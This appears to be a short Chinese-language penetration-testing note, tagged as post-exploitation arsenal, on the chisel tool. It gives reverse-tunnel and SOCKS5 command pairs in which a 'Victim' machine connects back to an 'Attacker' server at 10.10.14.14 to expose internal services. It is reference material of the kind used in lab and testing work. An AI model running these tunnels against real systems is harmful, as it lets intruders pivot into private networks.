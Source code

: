 ```yaml
---
tags:
  - 渗透/武器库
  - 渗透/后渗透
---
```



## chisel

> [hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#chisel)

反向隧道
```
Server -- Attacker: chisel server --reverse -p 12312
Client -- Victim  : ./chisel.exe client 10.10.14.14:12312 R:9090:127.0.0.1:9090
```

SOCKS5 Tunneling with Chisel
```
# 略绕的方法。不过也方便用浏览器看内网，或执行winrm等命令with proxychains即可。
Server -- Attacker: chisel server --reverse --socks5 -p 12312
Client -- Victim  : ./chisel.exe client 10.10.14.14:12312 R:socks
```

